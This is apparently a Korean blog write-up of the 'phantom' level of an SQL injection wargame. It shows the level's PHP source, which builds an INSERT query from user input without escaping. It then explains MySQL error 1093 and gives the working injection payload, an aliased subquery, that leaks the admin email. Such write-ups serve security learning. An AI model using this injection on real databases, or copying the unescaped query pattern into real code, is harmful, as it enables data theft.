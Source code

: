 ```yaml
---
title : "LOS Lv.29 phantom"
categories : [Wargame, rubiya]
tags: [MySQL 서브 쿼리 사용 시 동일 테이블 사용 오류, Mysql Error 1093 You can't specify target table]
---
```


## phantom
<hr style="border-top: 1px solid;">

<br>

```php
ip	email
127.0.0.1	**************
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect("phantom");

  if($_GET['joinmail']){
    if(preg_match('/duplicate/i', $_GET['joinmail'])) exit("nice try");
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysqli_query($db,$query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysqli_query($db,"select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysqli_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>".htmlentities($result[email])."</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysqli_query($db,"delete from prob_phantom where no != 1"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```

<br>
<br>

## Solution
<hr style="border-top: 1px solid;">

<br>

처음엔 입력을 ```(select email from prob_phantom where no=1)```을 했더니 안나옴. 

내 서버에서 해보고 오류난 부분을 알아보니 ```Mysql Error 1093 You can't specify target table 테이블명``` 이렇게 나옴. 

**이는 서브쿼리에 동일한 테이블을 사용할 경우 발생하는 오류임.**

**MySQL 은 Oracle 과는 달리 UPDATE 나 DELETE 시 자기 테이블의 데이터를 바로 사용 못하므로 1093 에러가 발생함.**

해결방법은 테이블에 별명을 지어주면 됨. 따라서 입력값은 다음과 같음.

<br>

```
?joinmail='), (0,'자기 ip주소',(select email from prob_phantom a where no=1)) %23

admin_secure_email@rubiya.kr
```

<br>
<br>
